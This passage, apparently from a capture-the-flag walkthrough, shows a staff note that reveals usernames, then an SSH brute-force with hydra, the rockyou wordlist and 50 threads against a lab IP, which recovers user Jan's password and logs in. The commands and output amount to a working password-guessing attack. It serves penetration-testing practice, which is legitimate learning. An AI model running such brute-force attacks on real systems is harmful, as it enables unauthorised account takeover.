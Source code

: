 ```bash
$ cat staff.txt      
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```
### So ```kay``` and ```Jan``` are two user and ```jan``` system password are week 
## Let brute-force SSH service
### As we know ip and username let brute it.
``` sudo apt install hydra -y ```
```bash
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.50.222 -t 50
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-04 22:19:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 50 tasks per 1 server, overall 50 tasks, 14344399 login tries (l:1/p:14344399), ~286888 tries per task
[DATA] attacking ssh://10.10.50.222:22/
[STATUS] 390.00 tries/min, 390 tries in 00:01h, 14344028 to do in 612:60h, 31 active
[STATUS] 229.67 tries/min, 689 tries in 00:03h, 14343733 to do in 1040:55h, 27 active
[22][ssh] host: 10.10.50.222   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 23 final worker threads did not complete until end.
[ERROR] 23 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-04 22:22:17
```
#### I got password ```armando```, So there is no firewall to block me doing bruteforce im sending 50 threads at once to fast this process
#### For verbose mode use ```-V``` i dont use in at time of making walkthrough it make terminal more messed up
## Let login at Jan account
```bash
$ ssh jan@10.10.50.222
The authenticity of host '10.10.50.222 (10.10.50.222)' can't be established.
ED25519 key fingerprint is SHA256:XKjDkLKocbzjCch0Tpriw1PeLPuzDufTGZa4xMDA+o4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.50.222' (ED25519) to the list of known hosts.
jan@10.10.50.222's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.



```